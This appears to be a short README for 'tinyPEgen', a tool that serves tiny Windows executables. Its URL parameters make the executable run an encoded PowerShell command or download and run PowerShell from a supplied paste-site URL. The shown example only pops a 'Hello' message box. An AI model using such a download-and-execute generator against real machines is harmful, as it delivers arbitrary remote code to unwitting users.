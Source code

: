 # tinyPEgen
shoutz to yuu/@netspooky and remy/@xen0bit

usage: `python3 serve.py ip port`

visiting ```http://ip:port/?c=powershell -e QQBkAGQALQBUAHkAcABlACAALQBBAHMAcwBlAG0AYgBsAHkATgBhAG0AZQAgAFAAcgBlAHMAZQBuAHQAYQB0AGkAbwBuAEMAbwByAGUALABQAHIAZQBzAGUAbgB0AGEAdABpAG8AbgBGAHIAYQBtAGUAdwBvAHIAawA7ACAAWwBTAHkAcwB0AGUAbQAuAFcAaQBuAGQAbwB3AHMALgBNAGUAcwBzAGEAZwBlAEIAbwB4AF0AOgA6AFMAaABvAHcAKAAnAEgAZQBsAGwAbwAnACkA```
visiting ```http://ip:port/?d=https://del.dog/raw/imenivexos``` will download and execute powershell using the URL you supply, from pastebin etc, specify raw url's

example commands will execute `Add-Type -AssemblyName PresentationCore,PresentationFramework; [System.Windows.MessageBox]::Show('Hello')`

as with the original by yuu, these binaries will be tiny, they will break things, they will run usually first time if you run them from cmd.exe or powershell.exe, they will take a few executes to work via click, giving error c00000005(i have no idea why, just exec from a command prompt) 
